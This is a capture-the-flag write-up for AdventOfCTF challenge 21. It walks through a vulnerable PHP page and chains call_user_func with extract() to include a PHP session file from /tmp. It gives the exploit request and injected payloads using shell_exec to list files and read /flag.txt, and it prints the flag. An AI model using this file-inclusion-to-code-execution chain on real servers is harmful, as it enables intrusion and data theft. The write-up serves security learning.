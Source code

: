 +++
author = "Maik de Kruif"
title = "Challenge 21 - AdventOfCTF"
date = 2021-02-26T11:45:53+01:00
description = "A writeup for challenge 21 of AdventOfCTF."
cover = "img/adventofctf/a4afd1fffb0b662d849a6907767f0625.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2100

## Description

We are testing a new mechanism to filter out malicious content from URLs. This application is the test page for this feature. I hope it works, these hackers are very active!

The flag is in /flag.txt

Visit https://21.adventofctf.com to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with some PHP code:

```php
<?php
error_reporting(0);

ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');

# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);

# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}

header("Location: /index.php");
exit();
?>
```

Besides this, we can also see an input field for a name. From it's source, we can tell it send a `POST` request to `/get_flag.php` upon submitting the form.

## Analyzing the code

Let's start by going over the PHP code line by line.

```php
ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');
```

The code starts by setting two PHP settings. The first one is pretty obvious; it disables the display of errors. The second one is a little more interesting. If we take a look at the [php documentation](https://www.php.net/manual/en/ini.core.php#ini.open-basedir) we find the following:

> Limit the files that can be accessed by PHP to the specified directory-tree, including the file itself.
> [...]
> When a script tries to access the filesystem, for example using include, or fopen(), the location of the file is checked. When the file is outside the specified directory-tree, PHP will refuse to access it.

This means we can, thus, only read files from the `/var/www/html` and `/tmp` directory. This is peculiar as we normally don't need to read anything from the `/tmp` folder.

```php
# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);
```

Moving on ot the next part, two variables are set: `$file` and `$func`. `$file` is set to a path which is later included with `include($file)`. To set the `$func` variable, the code will first check if `$_GET['function']` exists, and if so sets the variable to it, otherwise, the variable is set to the string `"filters"`.

After setting these variables, the script will execute `call_user_func` with two parameters. To see what this function does, we can have a look at the [docs](https://www.php.net/manual/en/function.call-user-func.php) again:

> Calls the callback given by the first parameter and passes the remaining parameters as arguments.

This means it will execute the function saved in `$func`, which, we can set using the `GET` parameter `function`. It also passes all `GET` parameters as arguments.

After calling `call_user_func`, it [includes](https://www.php.net/manual/en/function.include.php) the `$file` variable. This means it will take the contents of the file at the path saved in `$file` and pretend it was written here.

```php
# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}
```

This part is also interesting. The code start a session and, if the `"name"` parameter exists in a `POST` request to this page, saves it to this session.

The interesting part is that we don't see it being used anywhere.

```php
header("Location: /index.php");
exit();
```

Finally, the script will add a `Location` header with `/index.php` as the content, this is basically a redirect, and then exits the process.

### Summary

Let's put this all together.

Firstly, the code restricts the read access of our program to `/var/www/html` and `/tmp`. It then, if it exists, calls the function passed in the `GET` parameter `function`. If it isn't set, it will call the `filters` function instead. Afterwards, it includes a file at the path saved in `$file`.

After all of this, it will start a session and, if the `POST` parameter `name` is set, saves the contents of that parameter to the session.

## Finding the vulnerability

The goal is to read the `/flag.txt` file which is not saved in either `/var/www/html` nor `/tmp`. This means we cannot exploit the `include` function to read it directly.

Let's have another look at the bottom code for the session. A variable in the session is set, but where is it actually saved? As PHP doesn't "run" like a python server would, it can't save it to memory. This means the session is probably saved to a file.

If we have a look on Google, we can find that PHP sessions are saved as separate files in the OS's temporary directory. For Linux, this is `/tmp`.

Hooray! This means the `include` function can access the session files. This is quite useless though if we can't actually use the include function. So let's get to that first.

### Including files

The only way to include a file from what I can see is to either use `call_user_func` to include a file, or use `call_user_func` to somehow overwrite the `&file` variable.

The first approach won't work though as `GET` parameters always have a name, and the `include` function doesn't use those.

There is, however, a way to overwrite the `&file` variable. We can do this using PHP's `extract` function.

From the [docs](https://www.php.net/manual/en/function.extract):

> extract — Import variables into the current symbol table from an array

In English, this means it imports the variables from the passed array into our code.

This is great as the passed array is the `$_GET` array. This is an array in which all our `GET` parameters are saved. This means that if we add a parameter with the name "file", it will, hopefully, overwrite the existing variable.

Let's test this. Firstly we have to set the name variable. To do this we can just enter some text in the input field and press submit. After this, we can make a `GET` request to `/get_flag.php` to read the file.

To make this request, we first need the session token. We can find in the cookies in our browser. For me, it was `e62ac597cd97e0638d898fff45c3b878`. Afterwards, we can make a request like this to get the contents of our session file: `/get_flag.php?function=extract&file=/tmp/sess_e62ac597cd97e0638d898fff45c3b878`.

This then returns the following:

```text
name|s:15:"Your cool name!";
```

As we can see, our input is directly saved to the file. Because we are reading the file using `include`, it also executes any PHP code it finds there. Let's verify that by setting our name to `<?php phpinfo(); ?>`.

If we now open the page with our file read again, we see the PHP info.

## Exploit

Now that we have PHP injection, we can easily turn this into Remote Code Execution (RCE). We do this by using the `shell_exec` function like so:

```php
<?php echo shell_exec("ls"); ?>
```

If we send this as the name, we get the following result:

```text
name|s:31:"error_pages
favicon.ico
filters.php
get_flag.php
index.php
logo.png
style.css
";
```

The description told us the flag was located at `/flag.txt` so let's open it using the following input:

```php
<?php echo shell_exec("cat /flag.txt"); ?>
```

## Solution

We got the flag! It is `NOVI{extract_1s_ev1l_on_us3r_inpu7}`.
